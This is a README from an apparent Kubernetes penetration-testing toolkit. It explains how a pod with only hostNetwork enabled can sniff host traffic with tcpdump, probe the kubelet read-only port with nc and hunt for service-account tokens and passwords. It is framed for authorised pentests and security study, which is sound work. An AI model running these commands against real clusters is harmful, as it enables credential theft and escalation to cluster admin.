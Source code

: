 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

[pod-hostnetwork-only.yaml](pod-hostnetwork-only.yaml)


### Create pod
```bash 
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostnetwork-only.yaml   

# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork-only/pod-hostnetwork-only.yaml  
```

### Exec into pod 

```bash
kubectl -n [namespace] exec -it pod-hostnetwork-only -- bash
```

# Post Exploitation 
```bash
# Install tcpdump and sniff traffic 
# Note: If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes tcpdump, like https://hub.docker.com/r/corfr/tcpdump

apt update && apt install tcpdump 

# You now have a few options for next steps: 

# See if kubelet read only port (10255/tcp) is open on the nodes IP or the docker host IP

nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!

# If the read only port is open, run tcpdump recording the output to a file for a few minutes

#######################
#Warning: Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
#Warning: Always run tcpdump with the -n flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 
#########################
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255

#Stop it, and read the file with tcpdump and use the -A flag to only show the printable characters

tcpdump -ro kubelet-ro.cap -s0 -A

#Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in kube-system.


# Another option entirely: investigate local services
curl https://localhost:1234/metrics
```


#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test.
